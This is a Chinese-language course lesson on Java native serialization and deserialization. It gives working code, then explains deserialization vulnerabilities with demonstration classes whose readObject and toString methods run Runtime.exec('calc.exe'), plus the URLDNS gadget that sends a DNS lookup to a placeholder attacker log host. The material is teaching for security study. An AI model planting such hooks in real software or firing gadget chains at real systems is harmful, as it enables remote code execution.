

# JavaEE应用开发与安全：第35天 - Java原生反序列化入门与安全分析 🔍


在本节课中，我们将要学习Java中的序列化与反序列化技术。这是Java安全领域的核心部分，许多漏洞都源于此。我们将从基础概念入手，通过代码实践，分析其工作原理，并初步探讨其可能引发的安全问题。


## 概述：什么是序列化与反序列化？ 🔄


序列化是一种将内存中的对象状态转换为字节流的技术。反序列化则是其逆过程，将字节流恢复为内存中的对象。


**核心公式**：
*   **序列化**：`Object` → `Byte Stream`
*   **反序列化**：`Byte Stream` → `Object`

这项技术主要用于数据传输和持久化存储。当需要通过网络传输一个复杂的对象，或将其保存到文件、数据库时，直接传输对象本身（包含其方法、内部结构等）非常困难。序列化技术将对象“打包”成一个紧凑的字节流，便于传输和存储；接收方再通过反序列化“拆包”，还原出原始对象。

上一节我们介绍了Java的反射机制，本节中我们来看看与反射机制紧密相关的序列化操作。


## 第一部分：Java原生序列化与反序列化实践 💻


我们将通过代码演示如何使用Java内置的API进行序列化和反序列化操作。

### 1. 创建可序列化的对象类

首先，我们需要创建一个实现了 `Serializable` 接口的类。这个接口是一个标记接口，表明该类的对象可以被序列化。

```java
import java.io.Serializable;

public class UserDemo implements Serializable {
    // 成员变量
    private String name = "小李";
    private String gender = "男";
    private int age = 30;

    // 构造方法
    public UserDemo() {}
    public UserDemo(String name, String gender, int age) {
        this.name = name;
        this.gender = gender;
        this.age = age;
    }

    // 重写toString方法，便于输出对象信息
    @Override
    public String toString() {
        return "UserDemo{name='" + name + "', gender='" + gender + "', age=" + age + "}";
    }
}
```

### 2. 序列化操作：将对象写入文件

以下是进行序列化操作的代码，其核心是使用 `ObjectOutputStream` 将对象写入文件。


```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;


public class SerializeTest {
    // 序列化方法
    public static void serializeObject(Object obj, String fileName) throws Exception {
        FileOutputStream fileOut = new FileOutputStream(fileName);
        ObjectOutputStream out = new ObjectOutputStream(fileOut);
        out.writeObject(obj); // 关键步骤：将对象序列化并写入文件
        out.close();
        fileOut.close();
        System.out.println("序列化数据已保存到: " + fileName);
    }

    public static void main(String[] args) {
        try {
            // 创建一个UserDemo对象
            UserDemo user = new UserDemo("小迪SEC", "男", 31);
            System.out.println("序列化前的对象: " + user);
            // 调用序列化方法
            serializeObject(user, "ser.txt");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
运行此代码后，会在项目目录下生成一个 `ser.txt` 文件。用文本编辑器打开会看到乱码，因为它是对象的二进制字节流表示。


### 3. 反序列化操作：从文件读取对象


以下是进行反序列化操作的代码，其核心是使用 `ObjectInputStream` 从文件中读取并还原对象。


```java
import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class UnserializeTest {
    // 反序列化方法
    public static Object unserializeObject(String fileName) throws Exception {
        FileInputStream fileIn = new FileInputStream(fileName);
        ObjectInputStream in = new ObjectInputStream(fileIn);
        Object obj = in.readObject(); // 关键步骤：从文件读取并反序列化为对象
        in.close();
        fileIn.close();
        return obj;
    }

    public static void main(String[] args) {
        try {
            // 调用反序列化方法，读取 ser.txt 文件
            Object obj = unserializeObject("ser.txt");
            // 输出还原后的对象
            System.out.println("反序列化后的对象: " + obj);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
运行此代码，控制台会输出与序列化前内容一致的对象信息，证明反序列化成功。

通过以上实践，我们了解了序列化与反序列化的基本流程：**将对象封装成文件便于传输，接收方再将文件解析还原**。

## 第二部分：反序列化安全问题初探 ⚠️




理解了基本操作后，我们来看反序列化为何会成为安全漏洞的重灾区。其根本原因在于：**反序列化过程会自动调用对象中的特定方法**。如果这些方法被恶意构造，就会执行危险代码。


### 安全问题成因分析


反序列化的安全隐患主要源于以下几个触发点：

#### 1. 重写 `readObject` 方法


如果被序列化的类重写了 `readObject()` 方法，那么在反序列化时，JVM会调用这个重写的方法，而不是默认的。


```java
import java.io.IOException;
import java.io.Serializable;


public class EvilUserDemo implements Serializable {
    private String name;

    // 恶意重写的 readObject 方法
    private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
        // 先调用默认的反序列化逻辑以正确还原数据
        in.defaultReadObject();
        // 然后执行恶意代码
        Runtime.getRuntime().exec("calc.exe"); // 在Windows上弹出计算器
    }
}
```
**攻击链条**：
1.  攻击者序列化一个 `EvilUserDemo` 对象。
2.  当受害者程序对这个序列化数据（如 `ser.txt`）进行反序列化时。
3.  程序会执行 `EvilUserDemo.readObject()` 方法，从而触发命令执行。


这种是最直接的方式，但在实际漏洞中较少见，因为很少有程序会直接反序列化一个明显包含恶意方法的自定义类。

#### 2. 利用类的其他“魔术方法”


除了 `readObject`，Java中还有一些方法会在特定场景下被自动调用，类似于PHP中的魔术方法。


*   **`toString()` 方法**：当对象被当作字符串输出（如 `System.out.println(obj)`）时，会自动调用其 `toString()` 方法。


```java
public class EvilUserDemo2 implements Serializable {
    @Override
    public String toString() {
        // 当反序列化后，如果对该对象进行输出操作，就会触发
        Runtime.getRuntime().exec("calc.exe");
        return super.toString();
    }
}
```
在反序列化代码中，如果存在 `System.out.println(unserializeObject("ser.txt"));` 这样的输出语句，就会触发 `toString()` 中的恶意代码。


#### 3. 利用Java自身类库中的危险方法（常见真实漏洞）


这是实际中最常见的反序列化漏洞类型。攻击者利用的是Java标准库或第三方组件中，那些本身可序列化、并且在反序列化过程中会调用某些危险方法的类。


例如，一个经典的测试用例是利用 `java.util.HashMap` 和 `java.net.URL` 类：


```java
import java.io.*;
import java.net.URL;
import java.util.HashMap;


public class URLDNS {
    public static void main(String[] args) throws Exception {
        HashMap<URL, Integer> hashMap = new HashMap<>();
        // 设置一个会被解析的URL
        URL url = new URL("http://your-dns-log.com");
        hashMap.put(url, 1);

        // 序列化这个HashMap
        serializeObject(hashMap, "dns.txt");
        // 反序列化它
        unserializeObject("dns.txt");
    }
    // ... 使用之前定义的序列化/反序列化方法
}
```
**攻击链条分析**：
1.  `HashMap` 实现了 `Serializable`。
2.  当 `HashMap` 反序列化时，其 `readObject()` 方法会调用 `hashCode()` 来计算键（Key）的哈希值。
3.  如果键是 `java.net.URL` 对象，计算其 `hashCode()` 会触发 `InetAddress.getByName(host)` 操作，即对URL中的主机名进行一次DNS解析。
4.  攻击者可以控制URL地址，指向一个自己搭建的DNS日志服务器。一旦漏洞触发，就能收到DNS查询记录，从而证实反序列化漏洞存在。


这个例子（URLDNS）常被用作反序列化漏洞的“探针”，因为它不执行命令，只产生DNS流量，相对无害且易于检测。


**核心概念总结**：反序列化漏洞的利用，关键在于找到一条从反序列化入口（如 `ObjectInputStream.readObject()`）到最终危险操作（如命令执行、文件读写、网络请求）的**调用链条**（Gadget Chain）。这条链条通常由多个类的方法依次调用组成。


## 总结与展望 🎯


本节课中我们一起学习了Java原生序列化与反序列化的基础操作，并初步探讨了其安全问题的核心原理。


*   **序列化**是将对象转为字节流，便于传输或存储。
*   **反序列化**是将字节流还原为对象。
*   **安全风险**源于反序列化过程会自动调用对象类中的方法（如 `readObject`, `toString`）。如果这些方法被恶意重写，或利用了Java类库中已有的危险方法链，就可能执行任意代码。


反序列化是一个庞大且复杂的话题，今天只是入门。后续在漏洞分析篇章中，我们会深入讲解：
*   如何分析复杂的利用链条（如Commons Collections, Fastjson等）。
*   不同组件（如XML, JSON解析器）的反序列化差异。
*   高阶利用技术，如RMI、JNDI注入等。


理解这些底层原理，将为我们后续分析真实世界的Java反序列化漏洞打下坚实的基础。下节课，我们将进入JWT（JSON Web Token）与身份验证相关的安全主题。